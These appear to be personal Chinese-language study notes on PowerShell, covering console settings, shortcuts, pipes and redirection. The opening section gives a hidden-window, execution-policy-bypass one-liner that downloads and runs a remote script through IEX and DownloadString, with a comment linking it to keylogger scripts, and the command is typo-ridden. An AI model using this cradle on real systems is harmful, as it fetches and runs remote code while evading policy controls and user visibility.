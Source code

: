 ###### 用IEX下载远程PS1脚本绕过权限执行脚本

```powershell
powershell.exe  -ExexutionPolicy ByPass -WindowStyle Hidden -NoProfile -NonI IEX(New-ObjectNet.WebClient).DownloadString("xxx.ps1");[Parameters]

# -NonI   非交互模式
# -NoProfile  /     -NoP         不加载当前用户的配置文件

# Noexit    执行后不退出Shell  （这在使用键盘记录等脚本时非常重要）

```





可以直接在终端进行数字计算.....笑死



**自定义Powershell控制台**
右键自己看着自己的习惯调整吧  
编辑选项：

- 快速编辑选项（操作快且方便）
- 标准编辑选项

**Powershell快捷键**
与linux中相似
```bash
alt+F7			#清除命令的历史记录
PgUp   PgDn		#翻页的效果
Esc		#情况命令行（我还是喜欢 ^L）
Home	#移动到命令行最左端
End		#移动到命令行最右端
```

###### Powershell管道和重定向
基于对象的

管道：
```bash
#找字符串
ls | findstr "an"

# 查看name列
ls | Format-table  name
# 还可以sort等

`get-process p* | stop-process`   # 找到p...的进程，然后停止
```

重定向：
```bash
# >,  >>

#重定向到文件中
ls | Format-table  name >> test.txt

```
